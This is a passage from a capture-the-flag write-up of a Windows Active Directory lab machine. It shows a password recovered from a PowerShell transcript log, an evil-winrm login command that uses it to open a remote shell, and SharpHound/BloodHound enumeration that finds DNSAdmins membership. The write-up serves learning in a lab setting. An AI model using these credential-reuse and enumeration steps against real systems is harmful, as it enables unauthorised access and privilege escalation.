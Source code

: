 ```powershell
Start time: 20191203063515
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
```

Looking through the txt file, It seemed that it is revealing password for user **ryan**: **Serv3r4Admin4cc123!**

![](https://i.imgur.com/rknuexL.png)


### Evil-Winrm
Now I have a shell connection as user **ryan**:

`sudo evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!`

![](https://i.imgur.com/X69qS2q.png)


## Privesc ryan to Administrator
### Bloodhound

Again uploaded and ran **SharpHound.exe**, downloaded the zip file and imported it into bloodhound:

```bash
upload SharpHound.exe
.\SharpHound.exe
download 20240318203422_BloodHound.zip
```

I can see that **ryan** is a member of **contractors** group:

![](https://i.imgur.com/ioGsSQf.png)



Checking on **OUTBOUND OBJECT CONTROL** for **contractors**, there was one:

![](https://i.imgur.com/uA66Lyd.png)



It seemed that **contractors** is a member of **DNSAdmins** group:
